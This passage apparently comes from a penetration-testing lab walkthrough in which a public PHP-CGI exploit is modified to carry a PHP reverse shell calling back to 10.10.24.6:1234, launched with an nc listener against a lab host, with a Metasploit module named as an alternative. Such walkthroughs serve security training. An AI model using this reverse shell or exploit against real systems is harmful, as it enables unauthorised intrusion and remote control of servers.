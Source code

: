 
- Modify `pwn_code` variable and insert **PHP reverse shell code**

```bash
vim 18836.php
# insert:
pwn_code = """<?php $sock=fsockopen("10.10.24.6",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
# Save and quit
```

```bash
# On another tab
nc -nvlp 1234

# Launch the exploit
python2 18836.py 10.2.20.205 80
```

![Unprivileged access with "www-data" user](.gitbook/assets/image-20230424151516577.png)

- Automatic MSF `exploit/multi/http/php_cgi_arg_injection` module can be used too.

![exploit/multi/http/php_cgi_arg_injection](.gitbook/assets/image-20230424151816221.png)
